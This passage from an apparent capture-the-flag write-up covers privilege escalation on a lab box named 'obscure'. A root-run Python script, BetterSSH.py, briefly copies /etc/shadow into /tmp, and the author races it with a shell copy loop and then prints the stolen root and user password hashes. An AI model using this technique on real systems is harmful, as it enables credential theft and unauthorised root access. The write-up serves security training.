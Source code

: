 ```bash
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

40 packages can be updated.
0 updates are security updates.


Last login: Mon Dec  2 10:23:36 2019 from 10.10.14.4
robert@obscure:~$ wc user.txt 
 1  1 33 user.txt
```

## privesc

### enumeration

On this box we don't need the well-known scripts for enumeration, a simple _sudo -l_ does the job.

```bash
robert@obscure:~/BetterSSH$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

A self-written SSH service, that could be interesting, this script seems to work but it has one vulnerability.
It copies the _/etc/shadow_ file to a non existing SSH directory under /tmp and compare the user input with the hash.

If we are faster than the remove command maybe we could steal this file.

### BetterSSH

First Terminal:
```bash
robert@obscure:~$ cd /tmp
robert@obscure:/tmp$ mkdir SSH && cd SSH
robert@obscure:/tmp/SSH$ while true; do cp * ../; done
```

Second terminal:
```bash
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: root
Enter password: test
Incorrect pass
```

Got it.
```bash
robert@obscure:/tmp$ cat z0o2ogfM 
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7

robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
```